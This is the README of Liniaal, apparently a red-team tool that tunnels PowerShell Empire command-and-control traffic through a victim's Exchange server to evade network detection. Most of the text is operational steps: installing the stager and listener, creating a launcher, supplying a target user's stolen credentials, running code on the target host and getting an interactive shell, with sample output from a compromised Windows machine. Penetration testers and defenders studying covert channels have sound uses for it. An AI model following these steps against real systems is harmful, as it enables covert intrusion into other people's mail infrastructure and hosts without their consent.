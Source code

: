 # Introduction

Liniaal allows for the creation of a C2 channel for Empire agents, through an Exchange server. All communication is done through MAPI/HTTP or RPC/HTTP and directly between the Liniaal agent and the Exchange server. No traffic traverses the traditional network boundary as plain HTTP, bypassing most network based detection and blocking.

Liniaal allows Empire to be used as usual, through a high latency, stealthy channel.

A full-end-to-end example is available on [YouTube] and an outline can be found in the [SensePost blog].


# Getting the Code

Liniaal depends heavily on the libraries created by [Ruler]. To interface with Powershell [Empire] you will require the 2.0_dev branch.

Dependencies:

* [Ruler]  
* [golang.org/x/crypto/ssh/terminal]
* [Empire] version 2.0_dev

The simpliest way to get Liniaal is to use `go get`:

```
go get github.com/sensepost/liniaal
```

Alternatively you can `git clone` the relevant components into your GOPATH:

```
git clone github.com/sensepost/ruler
git clone github.com/sensepost/liniaal
```

## Building

You can build your own binaries using Go:

```
cd liniaal
go build
```

## Pre-built Binaries

Compiled binaries for Linux, OSX and Windows are available. Find these in [Releases]

# Usage

**Note:** *Outlook will need to be open on your target's host! The Empire agent uses the MAPI end-points exposed by Outlook and these are only available while Outlook is running*

Firstly copy the [stager] and [listener] to the relevant directories within Empire.

```
cp empire/data/stagers/http_mapi.ps1 /opt/empire/data/stagers/
cp empire/lib/listeners/http_mapi.py /opt/empire/lib/listeners/
```

### Setting up Empire listener

To setup the listener within Empire:

```
(Empire) > listeners
(Empire: listeners) > uselistener http_mapi
```

The only new option is **Folder** which allows you to specify a name for the hidden folder used for communication. The default folder name is **Liniaal**.
Change this if you wish and then execute the listener.

```
(Empire: listeners/http_mapi) > set Folder Liniaal
(Empire: listeners/http_mapi) > execute
```

Now create your launcher: *Liniaal only supports powershell agents!*

```
(Empire: listeners/http_mapi) > launcher powershell
```

### Setup Liniaal

Now that Empire is up and running, you need to setup the Liniaal agent to translate/transfer requests between Empire and Exchange.

```
./liniaal

Liniaal - a communication extension to Ruler
use 'options' to view settings for your agent. 'set key value' to change settings.
For anything else, use 'help'
> options
== Agent options ==
Password                                            The password for the target user
Folder               Liniaal                        The name of the hidden folder
Host                 http://localhost:8080          The address of our Empire listener
URL                                                 A custom autodiscover end-point
EmailAddress         demo@outlook.com               The target mailbox/email address
Username                                            The username of our target user, if required
Domain                                              The domain of our target user, if required
>
```

The interface is similar to Empire and allows you to set the required fields. These are similar to those used in Ruler. THe important fields are:

* EmailAddress
* Username   (except for Office365/Outlook domains)
* Password
* Folder
* Host

Ensure that the **Folder** is the same as set in [Empire].
**Host** is our Empire listener address.

```
> set Folder Liniaal
> set EmailAddress test@outlook.com
> set Host http://localhost:8080
```

Once the required values are set, start the Liniaal agent:

```
> run

[+] Agent Listening  
```

The agent's status/actions will be shown and dynamically updated.

### Get your shell

Now your communication channel is setup, you can execute the powershell launcher (generated through Empire) on your target. How you do this depends fully on you. You could even pop it through [Ruler].

The channel is slow, it can take upto two minutes for the Empire agent to be come active and usable through Empire. You should see the following while the agent is communicating through Liniaal:

```
[+] Sent response to agent at: 14/03/2017 03:56:44 PM
```

Once the agent is setup you can use the agent through the Empire inteface as you normally would.

```
(Empire: listeners/http_mapi) > [+] Initial agent XAYZUNLW from 172.17.0.1 now active
(Empire: listeners/http_mapi) > agents
[*] Active agents:                                                                                                             │
                                                                                                                               │
  Name            Lang  Internal IP     Machine Name    Username            Process             Delay    Last Seen             │
  ---------       ----  -----------     ------------    ---------           -------             -----    --------------------  │
  XAYZUNLW        ps    192.168.122.18  DESKTOP-DNST7G1 DESKTOP-DNST7G1\Etiepowershell/2732     20/0.0   2017-03-14 15:59:20   │
                                                                                                                               │
(Empire: agents) > interact XAYZUNLW                                                                                           │
(Empire: XAYZUNLW) > sysinfo
(Empire: XAYZUNLW) > sysinfo: 0|http://172.17.0.2:8080|DESKTOP-DNST7G1|Etienne|DESKTOP-DNST7G1|192.168.122.18|Microsoft Windows│
 10 Home|False|powershell|2732|powershell|5                                                                                    │
                                                                                                                               │
Listener:         http://172.17.0.2:8080                                                                                       │
Internal IP:    192.168.122.18                                                                                                 │
Username:         DESKTOP-DNST7G1\Etienne                                                                                      │
Hostname:       DESKTOP-DNST7G1                                                                                                │
OS:               Microsoft Windows 10 Home                                                                                    │
High Integrity:   0                                                                                                            │
Process Name:     powershell                                                                                                   │
Process ID:       2732                                                                                                         │
Language:         powershell                                                                                                   │
Language Version: 5       
```

# Caveats

As noted before, Liniaal requires Outlook to be running. You will also require valid credentials for the target user. And it is assumed you have a way to run code on the target host.

The Powershell agent does not have any persistence or ability to respawn itself. It is also *dumb* at the moment; if Outlook stops running, the agent stops running and you will need to get it back manually (PR requests with a fix are welcome!)

[Ruler]:<https://github.com/sensepost/ruler>
[golang.org/x/crypto/ssh/terminal]:<golang.org/x/crypto/ssh/terminal>
[Releases]: <https://github.com/sensepost/liniaal/releases>
[Empire]:<https://github.com/EmpireProject/Empire/tree/2.0_beta>
[stager]:<https://github.com/sensepost/liniaal/blob/master/empire/data/stagers/http_mapi.ps1>
[listener]:<https://github.com/sensepost/liniaal/blob/master/empire/lib/listeners/http_mapi.py>
[SensePost blog]:<https://sensepost.com/blog/2017/Liniaal_-_Empire_through_Exchange>
[YouTube]:<https://www.youtube.com/watch?v=kRg09kUGpHs>
